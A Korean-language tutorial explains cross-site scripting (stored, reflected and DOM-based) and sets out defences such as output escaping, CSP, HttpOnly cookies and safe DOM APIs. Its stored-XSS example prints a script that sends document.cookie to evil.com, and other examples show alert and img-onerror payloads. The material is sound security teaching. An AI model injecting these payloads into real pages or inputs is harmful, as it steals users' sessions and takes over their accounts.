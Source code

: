 # 🛡️ XSS (Cross-Site Scripting)

웹 애플리케이션 보안에서 가장 널리 알려진 공격 방식 중 하나로, 사용자의 입력을 검증 없이 DOM이나 HTML에 출력할 때 발생합니다.  

---

## 1️⃣ XSS란?

- **Cross-Site Scripting (XSS)** 는 악성 스크립트를 웹 페이지에 삽입하여, 사용자의 브라우저에서 실행되도록 하는 보안 취약점입니다.
- 세션 탈취, 피싱, 클릭재킹, UI 변조 등 다양한 공격으로 이어질 수 있습니다.

---

## 2️⃣ XSS 유형

### 1) 저장형 (Stored XSS)

- 공격자가 입력한 스크립트가 **서버 DB 등에 저장되어** 다른 사용자에게 노출
- 예: 게시판, 댓글, 프로필 등

```html
<script>fetch('https://evil.com?cookie=' + document.cookie)</script>
```

#### 공격 흐름
1. 공격자가 이 코드를 댓글, 게시물, 사용자 소개란 등에 삽입
2. 해당 내용이 DB에 저장되고, 서버가 이를 HTML로 렌더링함
3. 다른 사용자가 페이지를 열었을 때, 이 <script>가 그 사람 브라우저에서 실행됨
4. 실행된 스크립트는 document.cookie 를 통해 현재 사용자의 세션 쿠키를 읽음
5. 읽은 쿠키를 https://evil.com 으로 전송
6. 공격자는 받은 쿠키를 자기 브라우저에 복사해서 로그인 세션 탈취 가능

---

### 2) 반사형 (Reflected XSS)

악성 스크립트가 요청(URL, 파라미터, 폼 등) 에 포함돼 있고, 서버가 그 값을 검증 없이 응답에 반영하면, 브라우저에서 바로 실행되는 공격

```
https://example.com?q=<script>alert(1)</script>
```

#### 공격 흐름
1. 공격자는 위와 같은 URL을 만들어서 이메일, 메시지, SNS 등에 공유
2. 사용자가 이 URL을 클릭해서 접속
3. 서버가 q 파라미터의 값을 검증 없이 HTML에 그대로 출력
```html
<h1>검색 결과: <script>alert(1)</script></h1>
```
4. 브라우저는 이 HTML을 받아서 렌더링 → <script>가 실행

---

### 3) DOM 기반 XSS

- 서버가 아닌, 클라이언트(브라우저)에서 실행 중인 JavaScript가 사용자 입력을 직접 DOM에 삽입하면서 발생하는 XSS
- 보통 innerHTML, document.write, eval, location.hash 같은 API가 제대로 필터링 없이 사용될 때 발생

```js
const search = location.hash.slice(1);
document.body.innerHTML = "검색어: " + search;
```

#### 공격 흐름
1. 사용자가 다음 URL로 접근:
```
https://example.com/#<img src=x onerror=alert(1)>
```
2. `location.hash.slice(1)` → `"<img src=x onerror=alert(1)>"` 문자열이 `search` 변수에 들어감
3. `document.body.innerHTML` 안에 그대로 넣으면서 브라우저가 이 HTML을 진짜 DOM으로 파싱
4. <img> 태그가 렌더링되고, 이미지를 찾을 수 없으므로 `onerror` 트리거 → `alert(1)` 실행됨

---

## 3️⃣ 공격 결과 예시

| 피해 | 설명 |
|------|------|
| 세션 탈취 | `document.cookie`를 전송하여 로그인 탈취 |
| 키로깅 | 사용자 입력값 수집 |
| 피싱 | 가짜 로그인 UI 삽입 |
| 페이지 조작 | DOM 조작으로 사용자 유도 |

---

## 4️⃣ 방어 방법

### 1) 출력 시 이스케이프 (Output Escaping)

- HTML, 속성, JS context에 따라 출력값 이스케이프 필요

```js
function escapeHTML(str) {
  return str.replace(/[&<>"']/g, (m) => ({
    "&": "&amp;", "<": "&lt;", ">": "&gt;",
    '"': "&quot;", "'": "&#039;"
  })[m]);
}
```

---

### 2) 입력 검증

- `<script>`, `on*`, `javascript:` 등 금지 패턴 필터링
- 가능한 경우 **화이트리스트 기반 허용**

---

### 3) DOM 조작 방식 변경

- `innerHTML` ❌ → `textContent`, `createElement` ✅

```js
element.textContent = userInput;
```

---

### 4) Content Security Policy (CSP)

- 인라인 스크립트, 외부 출처 스크립트 제한

```http
Content-Security-Policy: default-src 'self'; script-src 'self'
```

---

### 5) HttpOnly 쿠키 설정

- 쿠키를 JS에서 접근 불가능하게 하여 탈취 방지

```http
Set-Cookie: session=abc; HttpOnly; Secure
```

---

## 5️⃣ 프레임워크별 자동 방어

| 프레임워크 | 특징 |
|------------|------|
| React | JSX는 자동 escape 처리 (`<script>` 렌더링 불가) |
| Vue | Mustache(`{{ }}`) escape, `v-html` 사용 시 주의 |
| Angular | Strict Contextual Escaping + DomSanitizer |

---

## 🎯 정리

✔ XSS는 **입력 → 실행**이 연결되는 보안 이슈  
✔ **출력 시 이스케이프**가 핵심 방어  
✔ CSP, HttpOnly 쿠키, DOM 안전 API 사용으로 보안 강화  
✔ React/Vue 등은 기본적으로 방어하지만 `dangerouslySetInnerHTML`, `v-html` 등은 주의 필요
